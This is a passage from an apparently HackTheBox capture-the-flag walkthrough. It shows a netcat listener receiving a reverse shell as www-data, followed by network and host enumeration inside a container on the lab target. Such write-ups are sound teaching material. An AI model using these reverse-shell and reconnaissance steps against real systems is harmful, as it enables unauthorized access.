 <div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>nc <span class="nt">-lvnp</span> 443
<span class="go">listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 48372
</span><span class="gp">‍</span><span class="nb">id</span>
<span class="go">uid=33(www-data) gid=33(www-data) groups=33(www-data)
</span></code></pre></div></div>

<p>We now have access to what we’ll later find is called the the Create container.</p>

<h2 id="pivot-to-olympia-container---shell-as-icarus">Pivot to Olympia Container - Shell as icarus</h2>

<h3 id="enumeration-of-create">Enumeration of Create</h3>

<p>It’s quickly clear that this is a stripped down environment, likely a container:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">‍</span>which python
<span class="go">
</span><span class="gp">‍</span>which python3
<span class="go">
</span><span class="gp">‍</span><span class="nb">hostname</span>
<span class="go">f00ba96171c5

</span><span class="gp">‍</span>ifconfig
<span class="go">eth0      Link encap:Ethernet  HWaddr 02:42:ac:14:00:02
          inet addr:172.20.0.2  Bcast:172.20.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3149050 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2384513 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:421530652 (402.0 MiB)  TX bytes:423441702 (403.8 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:36092 errors:0 dropped:0 overruns:0 frame:0
          TX packets:36092 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:2823261 (2.6 MiB)  TX bytes:2823261 (2.6 MiB)

</span><span class="gp">‍</span>arp <span class="nt">-a</span>
<span class="go">? (172.20.0.1) at 02:42:e3:e6:86:2f [ether] on eth0

</span><span class="gp">‍</span>netstat <span class="nt">-anop</span> | <span class="nb">grep </span>LISTEN
<span class="go">tcp        0      0 127.0.0.11:36933        0.0.0.0:*               LISTEN      -                off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                off (0.00/0/0)
</span></code></pre></div></div>

<p>There’s only one user on the box, <code class="language-plaintext highlighter-rouge">zeus</code>, and the only thing in the homedir is <code class="language-plaintext highlighter-rouge">airgeddon</code>, a tool for WiFi sniffing. Inside <code class="language-plaintext highlighter-rouge">/home/zeus/airgeddon/captured</code> is a pcap and a note:</p>
